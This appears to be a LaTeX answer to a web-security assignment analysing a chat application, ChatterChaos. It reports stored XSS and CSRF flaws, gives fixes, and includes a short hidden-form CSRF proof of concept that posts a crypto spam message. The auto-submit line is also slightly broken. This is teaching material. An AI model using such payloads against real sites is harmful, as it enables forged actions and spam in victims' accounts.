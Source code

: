 \documentclass{article}
\begin{document}
\textbf{Question 1: Vulnerability Table}
\begin{itemize}
    \item \textbf{SQL Injection (SQLi)}: \textbf{No}. The code relies exclusively on parameterized queries (\texttt{db\_execute\_query\_with\_statement}), safely separating SQL logic from user data.
    \item \textbf{Cross-Site Scripting (XSS)}: \textbf{Yes (Stored XSS)}. On lines 82-83, the user's input for \texttt{color} is injected directly into the \texttt{style} HTML attribute without context-aware escaping. The \texttt{blacklist} function filters angle brackets, but breaking out of an attribute context does not require them. *Fix*: Implement strict whitelisting for allowed colors and use proper HTML escaping.
    \item \textbf{Cross-Site Request Forgery (CSRF)}: \textbf{Yes}. The \texttt{post\_message} function performs a state-changing action (posting a message) but only verifies session cookies. It lacks anti-CSRF tokens to verify that the request originated intentionally from the legitimate application interface. *Fix*: Implement synchronizer CSRF tokens.

\end{itemize}
\textbf{Question 2: Reproducing the CSRF Exploit}
*Mechanism*: The attacker hosts a malicious web page (e.g., on a streaming site). When the authenticated ChatterChaos user visits this page, it automatically triggers a cross-origin \texttt{POST} request to the ChatterChaos server. The victim's browser automatically attaches their session cookies, making the request valid.
*Exploit Code*: The attacker embeds a hidden, auto-submitting form on their site:
\texttt{}`html
<form method="POST" action="http://chatterchaos.com/post\_message">
<input type="hidden" name="channel\_id" value="100">
<input type="hidden" name="message" value="You want some easy money! Visit easycrypto.com!">
<input type="submit" onload="this.click()">
</form>
\texttt{}`
\end{document}
